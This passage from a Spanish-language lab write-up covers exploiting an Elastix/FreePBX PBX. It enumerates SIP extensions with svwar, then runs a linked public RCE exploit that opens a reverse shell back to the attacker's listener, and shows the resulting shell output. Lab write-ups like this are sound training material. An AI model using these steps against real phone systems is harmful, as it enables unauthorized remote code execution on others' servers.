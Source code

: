 Observamos el recurso *php/webapps/18650.py*; sin embargo, para este caso, se utilizará el siguiente recurso [Elastix RCE](https://github.com/k4miyo/FreePBX-Elastix-RCE-exploit):

[Github](https://github.com/k4miyo/FreePBX-Elastix-RCE-exploit)

Para ejecutar el exploit, nos solicita información como: *rhost*, *lhost*, *lport* y *extension*. Para obtener la extensión, ejecutamos el siguiente comando:

```bash
❯ svwar -m INVITE -e100-500 10.10.10.7                                                                                             
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the 
night                                                                                                                              
WARNING:TakeASip:extension '100' probably exists but the response is unexpected                                                    
WARNING:TakeASip:extension '102' probably exists but the response is unexpected                                                    
WARNING:TakeASip:extension '113' probably exists but the response is unexpected                                                    
WARNING:TakeASip:extension '118' probably exists but the response is unexpected                                                    
WARNING:TakeASip:extension '122' probably exists but the response is unexpected
...
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 100       | weird          |
+-----------+----------------+
| 102       | weird          |
+-----------+----------------+
| 113       | weird          |
+-----------+----------------+
| 118       | weird          |
+-----------+----------------+
+-----------+----------------+
| 351       | weird          |
+-----------+----------------+
| 233       | reqauth        |
+-----------+----------------+
| 235       | weird          |
+-----------+----------------+
+-----------+----------------+
| 493       | weird          |
+-----------+----------------+
| 497       | weird          |
+-----------+----------------+
```

Para este caso, el valor de *extension* es 233. Una vez realizados los cambios y procedemos a ejecutar el exploit.

```bash
❯ python elastix_rce.py --lhost 10.10.14.6
[+] Payload: Payload generated
[+] Shell: Established connection!
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.10.7 on port 45927
[-] Request: Payload sent correctly
[*] Switching to interactive mode
$ whoami
asterisk
$ ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:B9:B2:53  
          inet addr:10.10.10.7  Bcast:10.10.10.255  Mask:255.255.255.0
```